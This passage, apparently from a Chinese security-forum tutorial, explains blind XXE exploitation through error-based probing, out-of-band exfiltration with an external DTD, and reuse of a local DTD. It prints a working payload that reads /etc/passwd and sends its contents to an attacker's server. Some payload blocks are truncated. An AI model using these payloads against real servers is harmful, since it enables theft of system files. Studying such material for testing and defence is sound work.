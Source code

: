 当遇到服务器响应始终为空的情况时，针对 XXE漏洞可以选择报错利用和外带利用两种策略。

#### 1.3.3.1、报错利用

通过构造特殊的 XXE 请求来触发服务器的错误响应。通常，当服务器处理错误的 XXE 请求时，会返回一些有关其内部环境的信息。输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，则证明文件不存在，如返回200，则证明文件存在。

```php
<?xml version="1.0" encoding="UTF-8"?>
%remote;]>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b70fbcddf36b97cd964700e33de5435b931f6978.png)

#### 1.3.3.2、外带利用

通过 XXE 请求控制服务器发出的网络请求，尝试让服务器向我们的VPS发起请求，这样就可以直接在VPS上查看请求的结果。

1、可以引用外部DTD

我们可以使用参数实体，引用外部DTD。

```php

Payload
    
    %remote;%int;%send;
    ]>

test.dtd

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip?p=%file;'>">
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-14154bf5a344878e2cfd3f103d601186a54726aa.png)

可以看到在服务器日志上面出现了我们想要的内容。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e594d21b8bbe34ecb13c9c06493366781e6811f1.png)

**整个调用过程：**

这种攻击方式关键在于构造合适的payload，通过连续调用参数实体，将远程服务器上的test.dtd文件包含进来，然后利用%file实体获取服务器上的敏感文件。最后，通过%send实体将读取到的数据发送到远程VPS上。

2、无法引用外部DTD

当目标服务器和攻击者之间存在防火墙，或者网络访问受到限制时，可能无法直接引用外部的DTD文件。在这种情况下，使用本地DTD文件是一个很好的替代方案。

要找到本地的DTD文件，可以进行枚举文件和目录。

Linux

```php
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

